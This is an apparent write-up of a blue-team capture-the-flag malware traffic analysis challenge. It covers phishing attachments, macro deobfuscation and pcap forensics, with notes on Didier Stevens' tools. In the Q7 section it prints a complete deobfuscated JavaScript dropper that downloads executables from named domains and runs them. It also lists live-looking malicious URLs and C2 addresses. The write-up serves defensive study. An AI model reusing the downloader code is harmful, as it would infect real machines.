---


[https://cyberdefenders.org/blueteam-ctf-challenges/malware-traffic-analysis-5/](https://cyberdefenders.org/blueteam-ctf-challenges/malware-traffic-analysis-5/)


## Basic triage {#35e7b0eb61a480a08b92e48d6f6abad7}


| 10.3.66.103 [Strout-PC] [STROUT-PC] (Windows) | 148.251.80.172  | 148.251.80.172 [1.web-counter.info]                                                                                      |
| --------------------------------------------- | --------------- | ------------------------------------------------------------------------------------------------------------------------ |
|                                               | 109.68.191.31   |                                                                                                                          |
|                                               | 174.121.246.162 | 174.121.246.162 [kennedy.sitoserver.com]                                                                                 |
|                                               | 192.241.179.166 | 192.241.179.166 [3point5oz.com]                                                                                          |
|                                               | 74.125.226.176  | 74.125.226.176 [www.google.com]                                                                                          |
|                                               | 23.218.210.155  | 23.218.210.155 [e10088.dspb.akamaiedge.net] [www.microsoft.com-c.edgekey.net.globalredir.akadns.net] [www.microsoft.com] |
|                                               | 10.3.66.1       | router                                                                                                                   |





### Q1 c41-MTA5-email-01: What is the name of the malicious file? {#3477b0eb61a480a6ac4ef7cb4a01c5a7}





Extract attachment in mail-01 reveals the malicious zip file





> 460630672421.exe


### Q2 c41-MTA5-email-01: What is the name of the trojan family the malware belongs to? (As identified by emerging threats ruleset). {#3477b0eb61a480b49a44c579e4561020}


Calculate the hash and using open source threat intel:





>  UPATRE


### Q3 c41-MTA5-email-02: Multiple streams contain macros in this document. Provide the number of the highest one. {#3477b0eb61a480fca410e1b7b0094fe1}


Using Didier Stevens oledump


```c++
ubuntu@ip-172-31-17-146:~/Desktop/Start here/Tools/DidierStevensSuite$ python3 oledump.py '/home/ubuntu/Desktop/Start here/Artifacts/2- Bill Payment_000010818.xls'
/home/ubuntu/Desktop/Start here/Tools/DidierStevensSuite/oledump.py:188: SyntaxWarning: invalid escape sequence '\D'
  manual = '''
  1:       104 '\x01CompObj'
  2:       236 '\x05DocumentSummaryInformation'
  3:       216 '\x05SummaryInformation'
  4:     13218 'Workbook'
  5:       615 '_VBA_PROJECT_CUR/PROJECT'
  6:       131 '_VBA_PROJECT_CUR/PROJECTwm'
  7: M   24051 '_VBA_PROJECT_CUR/VBA/Module1'
  8: M   25828 '_VBA_PROJECT_CUR/VBA/Module2'
  9:      5853 '_VBA_PROJECT_CUR/VBA/_VBA_PROJECT'
 10:      2278 '_VBA_PROJECT_CUR/VBA/__SRP_0'
 11:       642 '_VBA_PROJECT_CUR/VBA/__SRP_1'
 12:      1244 '_VBA_PROJECT_CUR/VBA/__SRP_2'
 13:       264 '_VBA_PROJECT_CUR/VBA/__SRP_3'
 14:       812 '_VBA_PROJECT_CUR/VBA/__SRP_4'
 15:       204 '_VBA_PROJECT_CUR/VBA/__SRP_5'
 16:       622 '_VBA_PROJECT_CUR/VBA/dir'
 17: m     992 '_VBA_PROJECT_CUR/VBA/Лист1'
 18: m     992 '_VBA_PROJECT_CUR/VBA/Лист2'
 19: m     992 '_VBA_PROJECT_CUR/VBA/Лист3'
 20: M    1458 '_VBA_PROJECT_CUR/VBA/ЭтаКнига'

```


The streams marked with the letter 'M' (Macros) contain malicious code: 7, 8, and 20.”


> So the answer is 20


Next we use this command to extract and check those stream:


```c++
python3 oledump.py -s 7 -v  
```


There are an obfuscate array in stream 8


valdis = Array(6340, 6352, 6352, 6348, 6294, 6283, 6283, 6333, 6336, 6354, 6333, 6346, 6335, 6337, 6336, 6339, 6350, 6347, 6353, 6348, 6282, 6346, 6337, 6352, 6282, 6333, 6353, 6283, 6362, 6341, 6346, 6335, 6333, 6346, 6352, 6341, 6346, 6283, 6287, 6287, 6288, 6339, 6289, 6342, 6291, 6290, 6283, 6292, 6293, 6291, 6341, 6291, 6353, 6356, 6349, 6337, 6282, 6337, 6356, 6337)


In ASCII code: 

- **h**: 104
- **t**: 116
- **p**: 112
- **:** (colon) 58
- **/** (slash): 47

⇒ offset = 6340 - 104 = 6352-116= 6236


We can see the pattern:  6340, 6352, 6352, 6348, 6294, 6283, 6283 → http://


Deobfuscate using a simple python script


```c++
valdis = [
    6340, 6352, 6352, 6348, 6294, 6283, 6283, 6333, 6336, 6354, 
    6333, 6346, 6335, 6337, 6336, 6339, 6350, 6347, 6353, 6348, 
    6282, 6346, 6337, 6352, 6282, 6333, 6353, 6283, 6362, 6341, 
    6346, 6335, 6333, 6346, 6352, 6341, 6346, 6283, 6287, 6287, 
    6288, 6339, 6289, 6342, 6291, 6290, 6283, 6292, 6293, 6291, 
    6341, 6291, 6353, 6356, 6349, 6337, 6282, 6337, 6356, 6337
]
result = ""
for num in valdis:
    ch = chr(num - 6236)
    result += ch

print(f"Result is: {result}")
Result is: http://advancedgroup.net.au/~incantin/334g5j76/897i7uxqe.exe

```


In stream 7 we also get:


```c++
Public Function Pochemu(Z() As Variant, oldLen As Integer) As String
Dim n As Integer
For n = LBound(Z) To UBound(Z)
 Pochemu = Pochemu & Chr(Z(n) - 4 * oldLen - 6000)
```


Hacker chose oldLen = 59 ⇒ -59*4 - 6000 = - 6236. It’s the same offset as we deduced above


### Q4 c41-MTA5-email-02: The Excel macro tried to download a file. Provide the full URL of this file? {#3477b0eb61a48066a67de3260f77eb67}


As we already analyzed in Q3


> http://advancedgroup.net.au/~incantin/334g5j76/897i7uxqe.exe


### Q5 c41-MTA5-email-02: The Excel macro writes a file to the temp folder. Provide the filename? {#3477b0eb61a4806697c4e6cfb1771f5f}


Public Const zilibobe = "t”


hermando5 = string_ty_pe4(UCase(zilibobe) + "EMP")


This concatenates the strings to form the path to the TEMP folder


rudnik = Chr(Asc(UCase(zilibobe)) + 17)


So `rudnik = "e"`.
`ce_de_ge3 = hermando5 + Chr(Asc(zilibobe) - 24) + zilibobe + "gh" + zilibobe + "op" + "." + rudnik + "x" + rudnik`




- `Asc("t")` : **116**.
- 116 - 24 = **92**.
- The 92th ASCII character is **`\`**.
- By substituting the ASCII values for the remaining characters, we get: `\` + `"t"` + `"gh"` + `"t"` + `"op"` + `.` + `"e"` + `"x"` + `"e"`.

> **`tghtop.exe`**


### Q6 c41-MTA5-email-03: Provide the FQDN used by the attacker to store the login credentials? {#3477b0eb61a48074b8a6da74a60b5fa9}


I calculate the hash and submit to hybrid-analysis.





> The FQDN will be `jpmmotos.pt`.


### Q7 c41-MTA5-email-04: How many FQDNs are present in the malicious js? {#3477b0eb61a480a691c1ea7737d1ed4e}


I extracted the JavaScript file, and after beautifying the code (with the help of AI), it reveals a typical dropper script:


```c++
// The 'str' variable at the beginning acts as a Campaign ID or Bot ID
var str = '5552505E160B0601161017241605070F17140507014A070B095E3C5E060A1E4A070B094A091D5E17555E555050525C50505555505E55';

// 1. Initialize the list of Domains (C2/Payload Servers)
var b = "kennedy.sitoserver.com nzvincem.cont.com abama.org".split(" "); 

// 2. Initialize Windows COM Objects for system interaction
var ws = WScript.CreateObject("WScript.Shell"); // Used to execute files
var xo = WScript.CreateObject("MSXML2.XMLHTTP"); // Used to make HTTP GET requests to download files
var xa = WScript.CreateObject("ADODB.Stream"); // Used to write binary data streams to the hard drive

// 3. Define the storage location for the malicious file (%TEMP%\799755[n].exe)
var fn = ws.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + "799755"; 
var ld = 0;

// 4. Loop to download and execute the Payload
for (var n=1; n<=3; n++) {
    for (var i=ld; i<b.length; i++) {
        var dn = 0;
        try {
            // Send a request to download the payload, including the ID and a Random Number
            xo.open("GET", "http://" + b[i] + "/counter/?id=" + str + "&rnd=309034" + n, false);
            xo.send();
            
            // Check HTTP Status Code
            if (xo.status == 200) {
                xa.open();
                xa.type = 1; // 1 = adTypeBinary (Binary data)
                xa.write(xo.responseBody);
                
                // Check if file size > 1KB to avoid saving junk/error pages
                if (xa.size > 1000) {
                    dn = 1;
                    xa.position = 0;
                    xa.saveToFile(fn + n + ".exe", 2); // 2 = Overwrite if the file already exists
                    
                    try {
                        // Execute the Payload in the background
                        ws.Run(fn + n + ".exe", 1, 0); 
                    } catch (er) { };
                };
                xa.close();
            };
            if (dn == 1) {
                ld = i; // Mark which domain is alive to use for the next iteration
                break;
            };
        } catch (er) { };
    };
};
```


> The answer is 3


### Q8 c41-MTA5-email-04: What is the name of the object used to handle and read files? {#3477b0eb61a480328cd9db185d6d802c}


As analyzed in Q7


> `ADODB.Stream`


### Q9 c41-MTA5.pcap: The victim received multiple emails; however, the user opened a single attachment. Provide the attachment filename. {#3477b0eb61a480239456d9a35bf713d1}


Using networkminer, we can see the host with malicious domain related to the js file found in Q7





> fax000497762.zip


### Q10 c41-MTA5.pcap: What is the IP address of the victim machine? {#3477b0eb61a48001abe6c07ef8296b3e}





> 10.3.66.103


### Q11 c41-MTA5.pcap: What is the FQDN that hosted the malware? {#3477b0eb61a48053bfc0ff2098519f2f}


> kennedy.sitoserver.com


### Q12 c41-MTA5.pcap: The opened attachment wrote multiple files to the TEMP folder. Provide the name of the first file written to the disk? {#3477b0eb61a480a19503c16dddfade28}


Take a look into the deobfuscated js code in Q7


```powershell
var fn = ws.ExpandEnvironmentStrings("%TEMP%") + String.fromCharCode(92) + "799755"; 
 xa.saveToFile(fn + n + ".exe", 2);
```


Since the variable `n` loops from 1 to 3, the first file written to disk will append '1' to the string, resulting in: `7997551.exe`."


> The first file written should be: 7997551.exe


### Q13 c41-MTA5.pcap: One of the written files to the disk has the following md5 hash "35a09d67bee10c6aff48826717680c1c"; Which registry key does this malware check for its existence? {#3477b0eb61a4800696f8de3480bcc578}


Locate the file in networkminer





use the strings command


> interface\{9a83a958-b859-11d1-aa90-00aa00ba3258}


### Q14 c41-MTA5.pcap: One of the written files to the disk has the following md5 hash "e2fc96114e61288fc413118327c76d93" sent an HTTP post request to "upload.php" page. Provide the webserver IP. (IP is not in PCAP) {#3477b0eb61a48056a053f67c6c25dfac}


Similar to previous question





The incriminated file is the one transferred within packet n.`571`. Load it to **Hybrid-Analysis** and open the report under `Falcon Sandbox Reports`. Go to `Network Analysis`, then `HTTP Traffic` where you will find a `POST` request to the url `78.24.220.229/upload.php` –


>  thus, the flag to submit is `78.24.220.229`. 


### Q15 c41-MTA5.pcap: The malware initiated callback traffic after the infection. Provide the IP of the destination server. {#3477b0eb61a4803eaf7adeab118c2133}


During the basic triage phase, we already noticed `109.68.191.31` appearing as a prominent malicious IP, displaying a high volume of connections with the victim machine."


Dive deep into wireshark: 











A encoded html with suspicious content


> 109.68.191.31


## Didier Stevens suite {#3477b0eb61a480a88e7cdcf2b460a66a}


Malware analysis with `oledump.py`

- General scan: `python3 oledump.py <file_name>`
- Extract and decompress VBA: `oledump.py -s 8 -v <file>`
	- _(Note:_ _`s 8`_ _selects stream 8,_ _`v`_ _performs VBA decompression)._
- Dump the malicious macro for analysis: `python oledump.py -s 8 -v suspicious_file.xls > macro_extracted.vba`

PDF analysis with `pdfid.py`
It counts dangerous keywords within the PDF structure:

- `pdfid.py <file_name>`
- /JavaScript or /JS: Indicates the file contains embedded JavaScript code.
- /OpenAction or /AA (Additional Action): The file will automatically execute a specific action as soon as the victim opens it (frequently used in automatic or "Zero-click" attacks).
- /EmbeddedFiles: Indicates this PDF is hiding another file (possibly an `.exe`) inside it.

Deep analysis with `pdf-parser.py`

- `python pdf-parser.py --search javascript thong_bao_thue.pdf`
	- _Purpose:_ Find the object containing the JavaScript.
- `python pdf-parser.py --object 12 thong_bao_thue.pdf`
	- _Purpose:_ Once the object (e.g., object 12) is found, extract it for analysis.
- To read the original code (since PDF data is often compressed using `FlateDecode`):
	- `python pdf-parser.py --object 12 -f -w thong_bao_thue.pdf`
	- `f`: Pass data through filters (decompresses the data).
	- `w`: Raw output.

Hunting for encoded strings with `base64dump.py`

- `python base64dump.py macro_extracted.vba`
	- _Purpose:_ Find base64 strings within the file.
- `python base64dump.py -s 1 -a macro_extracted.vba`
	- _Purpose:_ Dump the decoded content of a specific string (e.g., string 1).
